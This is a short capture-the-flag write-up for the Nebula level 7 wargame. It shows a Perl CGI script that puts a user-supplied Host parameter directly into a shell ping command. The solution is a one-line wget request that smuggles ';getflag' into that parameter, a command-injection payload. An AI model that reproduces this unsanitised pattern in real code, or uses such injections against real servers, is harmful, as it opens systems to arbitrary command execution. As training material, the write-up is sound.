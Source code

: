 .. _nebula07:

.. role:: bash(code)
	  :language: bash

.. role:: pearl(code)
	  :language: pearl
		     
Nebula 7
========

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level07/

**Source Code**

.. code-block:: pearl
		#!/usr/bin/perl

		use CGI qw{param};

		print "Content-type: text/html\n\n";

		sub ping {
		    $host = $_[0];

		    print("<html><head><title>Ping results</title></head></body><pre>");

		    @output = `ping -c 3 $host 2>&1`;
		    foreach $line (@output) { print "$line"; }

		    print("</pre></body></html>");

		}

		# check if Host set. if not, display normal page, etc

		ping(param(“Host”))

Solution
--------

:bash:`wget nebula'sIP/index.cgi?Host=%3Bgetflag`
